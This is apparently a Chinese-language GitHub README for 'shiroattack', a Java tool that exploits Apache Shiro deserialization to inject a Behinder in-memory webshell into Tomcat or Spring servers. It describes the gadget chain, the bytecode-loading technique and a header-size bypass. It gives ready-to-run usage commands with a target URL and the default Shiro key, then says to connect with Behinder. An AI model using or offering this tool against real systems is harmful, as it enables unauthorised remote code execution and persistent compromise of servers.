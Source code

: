 



# 

就是看了别人的文章，调试了一下漏洞，变成了利用工具

(有个小问题，忘记说了，有那个对应的 serialVersionUID 我这边没有遍历，就是说我们要把pom 对应的依赖改成和目标环境一样的 )

- P牛给shiro无CC依赖的CB1链来进行注入内存马

- `TemplatesImpl`来动态加载字节码触发其逻辑，从而注入恶意filter

- 利用自定义ClassLoader的方式绕过maxHttpHeaderSize

  理论上存在漏洞都能写成

## 使用方法

```
java -jar xxx.jar url key type(spring/tomcat)
```

```
java -jar shiroattack-1.0-SNAPSHOT-jar-with-dependencies.jar http://localhost:8080/shirodemo_war/index.jsp kPH+bIxk5D2deZiIxcaaaA== tomcat
```

然后冰蝎直接连就行了



参考原文：

[利用shiro反序列化注入冰蝎内存马 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/10696)
